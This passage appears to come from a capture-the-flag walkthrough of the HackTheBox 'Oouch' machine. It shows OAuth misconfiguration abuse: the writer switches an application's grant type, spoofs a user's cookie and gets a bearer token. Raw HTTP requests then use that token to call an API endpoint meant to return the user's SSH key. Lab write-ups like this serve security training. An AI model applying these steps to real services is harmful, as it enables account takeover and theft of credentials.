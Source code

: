 So let's log as `cyfun2` again, access the app params (http://authorization.oouch.htb:8000/oauth/applications/2/) and change _Authorization Grant Type_ to `client-credentials`.

Now we can spoof qtc cookie again and retry.

This time we obtain a much better answer:

```json
{
  "access_token": "Xkuzgir8C38MeCv2xyq08PFMDF5NwX",
  "expires_in": 600,
  "token_type": "Bearer",
  "scope": "read write"
}
```

### Get qtc SSH key

Let's remember of `o_auth_notes.txt`:

```
/api/get_user -> user data. oauth/authorize -> Now also supports GET method.
```

By using this endpoint we gain nothing:

```
GET /api/get_user/?access_token=Xkuzgir8C38MeCv2xyq08PFMDF5NwX HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=34Evh3Q30RWq1vsa9yWKKc49TXMo3c2TNv96AXeKrL4qD3ZLf9JbDwzKtjRzFPn5; sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e
Upgrade-Insecure-Requests: 1
```

```json
{"username": "qtc", "firstname": "", "lastname": "", "email": "qtc@nonexistend.nonono"}
```

As we heard of a ssh key in `todo.txt`, let's try `get_ssh` instead of `get_user`.

```
GET /api/get_ssh/?access_token=Xkuzgir8C38MeCv2xyq08PFMDF5NwX HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=34Evh3Q30RWq1vsa9yWKKc49TXMo3c2TNv96AXeKrL4qD3ZLf9JbDwzKtjRzFPn5; sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e
Upgrade-Insecure-Requests: 1
```
